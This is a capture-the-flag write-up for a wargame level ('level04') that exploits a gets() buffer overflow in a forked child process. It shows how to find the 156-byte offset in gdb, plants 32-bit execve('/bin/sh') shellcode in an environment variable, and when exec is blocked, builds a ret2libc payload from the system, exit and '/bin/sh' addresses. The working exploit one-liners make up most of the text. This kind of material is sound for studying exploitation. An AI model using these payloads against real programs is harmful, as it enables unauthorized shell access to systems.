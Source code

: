 # Ret2libc

## Protection

RELRO | STACK CANARY | NX | PIE
--- | --- | --- | --- 
**Partial RELRO** | No canary found | NX disabled | No PIE

## context

The program fork and the child basic overflow with gets() function.

I try shell it:

## Shell Code

To calcul the offset you need to follow child process in gdb:

```py
set follow-fork-mode child
stopped 0x6261616f in ??
Found at offset 156 (little-endian search) likely
```

so lets build this payload : 

Payload= offset + buffer address(env)

I export shell code in the env:

```bash
export SHELLCODE=$(python2.7 -c 'import sys; sys.stdout.write(b"\x90" * 0xffff + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

- shell =```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80``` (21 bytes)
- buffer env = 0xffff0101

exploit : 

```bash
cat <(python2.7 -c 'import sys; sys.stdout.write(b"a" * 156 + b"\x01\x01\xff\xff")') - | ./level04
Give me some shellcode, k

no exec() for you()
```

Aie ! main block exec() function.

```c
      local_18 = ptrace(PTRACE_PEEKUSER,child_pid,0x2c,0);
```

Lets call system function contain in libc

```bash
$> nm -D /lib32/libc.so.6 | grep system
00047cb0 W system@@GLIBC_2.0

$> strings /lib32/libc.so.6 | grep /bin
/bin/sh
```

## Ret2Libc

First of all lets tcheck if aslr is activated: 

```bash
cat /proc/sys/kernel/randomize_va_space
0
```

- 0: No randomization, the address space is completely static.
- 1: Partial randomization, stack and heap addresses are randomized, but shared libraries are still loaded at the same address.
- 2: Full randomization, the entire address space is randomized, including shared libraries.

**2** could be a problem because libc.so.6 could be load at diffenrent address between each calls.

Payload : [ Offset ] [ system() address] [ return address] [ "/bin/sh" address ]

```py
info functions system
0xf7e6aed0  system

info functions exit
0xf7e5eb70  exit

info proc mapping
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Exploit:

```bash
cat <(python2.7 -c 'import sys; sys.stdout.write(b"\x90" * 156 + b"\xd0\xae\xe6\xf7" + b"\x70\xeb\xe5\xf7" + b"\xec\x97\xf8\xf7")') - | ./level04
```